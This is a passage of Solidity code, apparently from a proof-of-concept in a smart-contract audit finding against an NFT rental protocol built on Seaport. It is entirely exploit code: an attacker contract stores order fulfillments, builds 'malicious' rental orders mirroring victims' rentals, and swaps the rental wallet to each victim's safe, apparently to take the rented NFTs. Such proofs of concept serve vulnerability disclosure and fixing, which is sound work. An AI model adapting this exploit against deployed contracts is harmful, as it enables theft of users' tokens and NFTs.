 ```solidity
            considCompERC721[0] = FulfillmentComponent({orderIndex: 1, itemIndex: 0});

            FulfillmentComponent[] memory offerCompERC20 = new FulfillmentComponent[](1);
            FulfillmentComponent[] memory considCompERC20 = new FulfillmentComponent[](1);

            offerCompERC20[0] = FulfillmentComponent({orderIndex: 0, itemIndex: 1});
            considCompERC20[0] = FulfillmentComponent({orderIndex: 1, itemIndex: 1});

            Fulfillment memory fulfillmentERC721 = Fulfillment({offerComponents: offerCompERC721, considerationComponents: considCompERC721});
            Fulfillment memory fulfillmentERC20 = Fulfillment({offerComponents: offerCompERC20, considerationComponents: considCompERC20});
            
            // store Fulfillment[] in attackerContract for later use
            attackerContract.storeFulfillment(fulfillmentERC721, fulfillmentERC20);
        }

        // ------ loop through victimRentalOrders to create our complimentary, malicious rentalOrders ------ //

        // pre-compute `RentalOrder` for our new rental orders
        // compute ZoneParameters.orderHash (this is the orderHash for our PAY order)
        RentalOrder[] memory rentalOrders = new RentalOrder[](victimRentalOrders.length);

        for (uint256 i; i < victimRentalOrders.length; i++) {
            Item memory victimItem = victimRentalOrders[i].items[0];
            ItemType itemType;
            if (victimItem.itemType == reNFTItemType.ERC721) {
                itemType = ItemType.ERC721;
            }
            if (victimItem.itemType == reNFTItemType.ERC1155) {
                itemType = ItemType.ERC1155;
            }

            bytes32 orderHash = seaport.getOrderHash(OrderParametersLib.toOrderComponents(
                attackerContract.getPayOrderParamsToHash(itemType, victimItem.token, victimItem.identifier, victimItem.amount), 0)
            );

            // construct the malicious rental order
            Item[] memory items = new Item[](2);
            items[0] = Item(victimItem.itemType, SettleTo.LENDER, victimItem.token, victimItem.amount, victimItem.identifier);
            items[1] = Item(reNFTItemType.ERC20, SettleTo.RENTER, address(erc20s[0]), uint256(1), uint256(0)); // the same for every malicious order

            RentalOrder memory rentalOrder = RentalOrder({
                seaportOrderHash: orderHash,
                items: items, // only PAY order offer items are added in storage
                hooks: metadata.hooks,
                orderType: OrderType.PAY, // only PAY order is added in storage
                lender: address(attackerContract),
                renter: address(attackerContract),
                rentalWallet: attackerSafe,
                startTimestamp: block.timestamp,
                endTimestamp: block.timestamp + metadata.rentDuration // note: rentDuration does not matter
            });

            // set `rentalOrder.rentalWallet` (currently equal to our attackerContract's safe) to be equal to the victim's safe
            rentalOrder.rentalWallet = victimRentalOrders[i].rentalWallet;

```